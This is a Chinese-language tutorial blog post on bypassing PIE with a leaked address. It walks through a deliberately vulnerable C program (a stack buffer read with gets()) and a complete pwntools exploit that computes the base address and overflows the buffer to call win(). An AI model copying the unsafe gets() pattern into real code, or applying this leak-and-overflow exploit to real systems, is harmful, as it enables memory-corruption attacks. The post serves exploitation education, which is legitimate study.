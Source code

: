 ```yaml
---
title: 利用已泄漏信息绕过 PIE
subtitle:
date: 2023-08-22T10:43:04+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


利用已泄漏信息绕过 PIE

<!--more-->

## 0x01 源码

{{< link href="/pwn_assets/pie-32.zip" content="pie-32.zip" title="Download pie-32.zip" download="pie-32.zip" card=true >}}

```c {title="source.c"}
#include <stdio.h>

int main() {
  vuln();

  return 0;
}

void vuln() {
  char buffer[20];

  printf("Main Function is at: %lx\n", main);

  gets(buffer);
}

void win() {
  puts("PIE bypassed! Great job :D");
}
```

程序输出 `main` 的地址，我们可以通过它来计算出基地址。然后我们可以利用这个基地址
计算出 `win()` 的地址。

## 0x02 分析

让我们运行该脚本以确保它是正确的 :D

```
$ ./vuln-32
Main Function is at: 0x5655f1b9
```

正如我们所期望的，它打印了 `main` 的地址。

## 0x03 利用

首先，让我们设置脚本。创建一个 `ELF` 对象（稍后会变得非常有用），然后启动该进程。

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()
```

现在我们要获取 `main` 函数的地址。为此，我们可以简单地接收它，然后读取。

```python
p.recvuntil('at: ')
main = int(p.recvline(), 16)
```

{{<admonition type="info">}}

由于我们接收了除地址之外的整行，因此只有地址才会出现在 `p.recvline()` 中。

{{</admonition>}}

现在我们将使用之前创建的 `ELF` 对象并设置它的基地址。`sym` 存储的是函数的相对偏移量，
我们只要用绝对地址减去相对偏移就可以得到基地址。

*设置基地址前 `sym` 字典中存储的是各函数的相对偏移量；设置基地址之后，`sym` 会变为存储
各函数的绝对地址。*

```python
elf.address = main - elf.sym['main']
```

在这个例子中，`elf.sym['main']` 将返回 `0x11b9` ；如果我们设置基地址后再次运行它，
它将返回 `0x11b9 + 基地址` 的值。本质上，我们是从泄漏的地址中减去 `main` 的偏移量，
以获得二进制文件的基地址。

现在我们有了可以调用 `win()` 的基本信息。我们可以调用 `win()` 了：

```python
payload = b'A' * 32
payload += p32(elf.sym['win'])

p.sendline(payload)

p.interactive()
```

{{<admonition type="info">}}

我假设你知道如何找到溢出 Padding 以及其他内容，因此我不会向你展示其中的每一步
具体该怎么做，希望你能通过自己的能力解决它们。

如果你不知道该怎么办，请先去看我之前写的文章，好好思考每一步为什么这样做，相信会有所帮助。

{{</admonition>}}

```
$ python exp.py
[*] 'vuln-32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process 'vuln-32': pid 147342
PIE bypassed! Great job :D
```

### 1x01 最终 Exploit

```python {title="exp.py"}
from pwn import *

# context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()

p.recvuntil('at: ')
main = int(p.recvline(), 16)

elf.address = main - elf.sym['main']

payload = b'A' * 32
payload += p32(elf.sym['win'])

p.sendline(payload)

p.interactive()
```

## 0x04 总结

通过泄漏的 `main` 地址，我们能够计算出二进制文件的基地址。由此我们可以计算出 `win`
的地址并调用它。

## 0x05 64-bit

自己尝试一下 64-bit 的版本该怎么绕过。

{{< link href="/pwn_assets/pie-64.zip" content="pie-64.zip" title="Download pie-64.zip" download="pie-64.zip" card=true >}}

